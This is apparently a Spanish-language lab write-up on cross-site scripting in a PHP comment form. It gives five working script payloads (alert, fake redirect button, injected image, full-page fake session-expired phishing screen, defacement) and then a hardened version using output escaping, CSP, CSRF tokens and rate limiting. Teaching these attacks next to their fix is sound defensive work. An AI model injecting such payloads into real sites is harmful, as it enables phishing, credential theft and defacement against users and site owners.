





###  EXPLOIT 1: Alert Básico

**Campo comment:**
```html
<script>alert('XSS Vulnerabilidad')</script>
```

**Salida en página:**
```html
Comentario publicado: <script>alert('XSS Vulnerabilidad')</script>
```

**Resultado:**  Ejecuta JavaScript y muestra alerta



---

###  EXPLOIT 2: Crear Botón Malicioso con Redirección

**Campo comment:**
```html
<script>
document.body.innerHTML += '<button onclick="window.location=\'http://google.com\'" style="padding: 10px 20px; background: #4CAF50; color: white; border: none; cursor: pointer; margin: 10px;">Click aquí para verificar tu cuenta</button>';
</script>
```

**Salida en página:**
```html
Comentario publicado: <script>document.body.innerHTML += ...</script>
```

**Resultado:**  Crea un botón verde que redirige a Google (o sitio del atacante)

**Impacto:** El atacante puede crear botones falsos que redirijan a páginas de phishing



---

###  EXPLOIT 3: Inyectar Imagen en la Página

**Campo comment:**
```html
<script>
var img = document.createElement('img');
img.src = 'https://picsum.photos/400/200';
img.style.width = '100%';
img.style.marginTop = '20px';
document.body.appendChild(img);
</script>
```

**Alternativa más simple:**
```html

```

**Resultado:**  Inserta una imagen en la página web

**Impacto:** El atacante puede insertar imágenes maliciosas, logos falsos, o contenido engañoso



---

###  EXPLOIT 4: Phishing Completo (Reemplazar Contenido)

**Campo comment:**
```html
<script>
document.body.innerHTML = '<div style="max-width: 400px; margin: 100px auto; padding: 30px; background: white; box-shadow: 0 2px 10px rgba(0,0,0,0.1); text-align: center;"><h2>⚠️ Sesión Expirada</h2><p>Tu sesión ha caducado por inactividad.</p><button onclick="window.location=\'http://google.com\'" style="padding: 12px 30px; background: #4CAF50; color: white; border: none; border-radius: 4px; cursor: pointer; font-size: 16px;">Volver a Iniciar Sesión</button></div>';
</script>
```

**Resultado:**  Reemplaza todo el contenido con una página falsa de sesión expirada

**Impacto:** Ataque de phishing muy convincente que puede robar credenciales



---

###  EXPLOIT 5: Modificar Contenido y Desfigurar Sitio

**Campo comment:**
```html
<script>
document.body.innerHTML = '<h1 style="color: red; text-align: center; margin-top: 200px; font-size: 60px;">SITIO HACKEADO</h1><p style="text-align: center; font-size: 24px;">Por: Hacker XSS</p>';
</script>
```

**Resultado:**  Desfigura completamente el sitio web (defacement)

**Impacto:** Daño reputacional a la organización



---

##  TABLA RESUMEN DE PAYLOADS

| # | Payload | Resultado | Severidad |
|---|---------|-----------|-----------|
| 1 | `<script>alert('XSS')</script>` | Muestra alerta | Media |
| 2 | Crear botón con redirección | Botón falso que redirige | Alta |
| 3 | Inyectar imagen | Inserta imagen en página | Media |
| 4 | Phishing completo | Página falsa de login | Crítica |
| 5 | Defacement del sitio | Desfigura sitio web | Alta |

---

##  CÓDIGO SEGURO (SOLUCIÓN)
```php
<?php
// ========================================
// FORMULARIO DE COMENTARIOS SEGURO
// ========================================

session_start();

// 1. GENERAR TOKEN CSRF
if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// 2. RATE LIMITING
if (!isset($_SESSION['comment_count'])) {
    $_SESSION['comment_count'] = 0;
    $_SESSION['comment_time'] = time();
}

// Reset cada minuto
if (time() - $_SESSION['comment_time'] > 60) {
    $_SESSION['comment_count'] = 0;
    $_SESSION['comment_time'] = time();
}

$max_comments = 5;
$comment_message = "";
$error_message = "";

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    
    // VERIFICAR CSRF TOKEN
    if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
        $error_message = "Token CSRF inválido";
    }
    // VERIFICAR RATE LIMIT
    else if ($_SESSION['comment_count'] >= $max_comments) {
        $error_message = "Límite excedido. Espera un minuto.";
    }
    // VALIDAR NO VACÍO
    else if (empty($_POST['comment'])) {
        $error_message = "El comentario no puede estar vacío";
    }
    // VALIDAR LONGITUD
    else if (strlen($_POST['comment']) > 500) {
        $error_message = "Comentario demasiado largo (máx 500 caracteres)";
    }
    else {
        // ====================================================
        //  SANITIZACIÓN (PREVIENE XSS)
        // ====================================================
        
        // htmlspecialchars() convierte:
        // < → &lt;
        // > → &gt;
        // " → &quot;
        // ' → &#039;
        // & → &amp;
        
        $safe_comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
        
        $comment_message = $safe_comment;
        $_SESSION['comment_count']++;
        
        // Regenerar token
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Comentarios Seguros</title>
    
    <!--  CSP - Content Security Policy (bloquea scripts inline) -->
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data:;">
    
    <style>
        body {
            font-family: Arial, sans-serif;
            max-width: 600px;
            margin: 50px auto;
            padding: 20px;
            background-color: #f5f5f5;
        }
        .container {
            background: white;
            padding: 30px;
            border-radius: 8px;
            box-shadow: 0 2px 10px rgba(0,0,0,0.1);
        }
        h2 {
            color: #333;
            margin-bottom: 20px;
        }
        .success {
            background-color: #d4edda;
            color: #155724;
            padding: 12px;
            border-radius: 4px;
            margin-bottom: 20px;
            border-left: 4px solid #28a745;
            word-wrap: break-word;
        }
        .error {
            background-color: #f8d7da;
            color: #721c24;
            padding: 12px;
            border-radius: 4px;
            margin-bottom: 20px;
            border-left: 4px solid #dc3545;
        }
        input[type="text"] {
            width: 100%;
            padding: 12px;
            border: 2px solid #ddd;
            border-radius: 4px;
            font-size: 14px;
            margin-bottom: 10px;
            box-sizing: border-box;
        }
        input[type="text"]:focus {
            outline: none;
            border-color: #4CAF50;
        }
        button {
            width: 100%;
            padding: 12px;
            background-color: #4CAF50;
            color: white;
            border: none;
            border-radius: 4px;
            font-size: 16px;
            cursor: pointer;
        }
        button:hover {
            background-color: #45a049;
        }
        .info {
            text-align: center;
            color: #666;
            font-size: 12px;
            margin-top: 15px;
        }
    </style>
</head>
<body>
    <div class="container">
        <h2> Comentarios</h2>
        
        <?php if (!empty($comment_message)): ?>
            <div class="success">
                <strong>✓ Comentario publicado:</strong><br>
                <?php echo $comment_message; ?>
            </div>
        <?php endif; ?>
        
        <?php if (!empty($error_message)): ?>
            <div class="error">
                 <?php echo htmlspecialchars($error_message, ENT_QUOTES, 'UTF-8'); ?>
            </div>
        <?php endif; ?>
        
        <form method="post">
            <!-- TOKEN CSRF -->
            <input type="hidden" name="csrf_token" value="<?php echo htmlspecialchars($_SESSION['csrf_token'], ENT_QUOTES, 'UTF-8'); ?>">
            
            <input 
                type="text" 
                name="comment" 
                placeholder="Escribe tu comentario..." 
                maxlength="500"
                required>
            
            <button type="submit">Enviar</button>
        </form>
        
        <div class="info">
            Comentarios: <?php echo intval($_SESSION['comment_count']); ?> / <?php echo intval($max_comments); ?> por minuto<br>
             Protegido contra XSS y CSRF
        </div>
    </div>
</body>
</html>
```

---

##  PROTECCIONES IMPLEMENTADAS

###  Contra XSS:
- [x] **htmlspecialchars()** - Convierte `<` `>` `"` `'` en entidades HTML
- [x] **ENT_QUOTES** - Escapa comillas simples y dobles
- [x] **UTF-8** - Especifica charset
- [x] **Content-Security-Policy** - Bloquea scripts inline y controla fuentes permitidas
- [x] **Validación de longitud** - Máximo 500 caracteres

###  Otras protecciones:
- [x] **CSRF Token** - Previene Cross-Site Request Forgery
- [x] **Rate Limiting** - Máximo 5 comentarios/minuto
- [x] **Validación de entrada** - Campo no vacío
- [x] **maxlength en HTML** - Límite en el cliente

---

### PAYLOADS EFECTIVOS:
1. `<script>alert('XSS')</script>` → Alert básico
2. Crear botón con JavaScript → Redirección a sitio malicioso
3. Inyectar imagen → Contenido visual malicioso
4. Phishing completo → Robo de credenciales
5. Defacement → Daño reputacional

### MITIGACIÓN:
 **htmlspecialchars()** con ENT_QUOTES y UTF-8  
 **Content-Security-Policy** (CSP)  
 **CSRF Tokens**  
 **Rate Limiting**  
 **Validación de entrada**  

